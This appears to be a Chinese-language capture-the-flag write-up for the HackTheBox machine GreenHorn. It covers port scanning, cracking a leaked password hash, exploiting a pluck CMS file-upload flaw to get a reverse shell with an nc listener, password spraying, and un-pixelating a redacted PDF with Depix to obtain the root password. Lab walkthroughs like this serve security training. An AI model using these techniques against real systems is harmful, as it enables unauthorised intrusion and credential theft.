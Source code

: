 ## port scan

```shell
┌──(root㉿kali)-[~/HackTheBox/GreenHorn]
└─# nmap 10.10.11.25    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 03:33 EST
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

开放三个端口

## web

查看80端口，发现是`pluck 4.7.18`，这个版本有一个文件上传漏洞（CVE-2023-50564）

需要登录后台，爆破无果

查看3000端口，注册账号，发现源代码

```
http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php
```

发现pass.php，存在密码hash值

```php
<?php
$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';
?>
```

爆破出密码`iloveyou1`

![image-20241125165243624](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241125165243624.png)

压缩反弹shell

```
zip rev.zip rev.php
```

`rlwrap nc -lvnp 1234`

成功拿到shell

## user flag

发现`junior`用户，尝试密码`iloveyou1`喷洒，成功登录

![image-20241125165753583](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241125165753583.png)

将pdf下载下来

![image-20241125165824678](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241125165824678.png)

发现password被隐藏了

## root flag

用了 pdfimages 来将图片中的涂抹部分提取为 png图片

```
sudo apt-get install poppler-utils
pdfimages greenhorn.pdf ./root
```

depix: https://github.com/spipm/Depix 修复像素

```
python3 depix.py -p ../root-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ../root_pass.png
```

然后查看还原的图片

![image-20241125170031562](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241125170031562.png)

密码：`sidefromsidetheothersidesidefromsidetheotherside`

成功登录root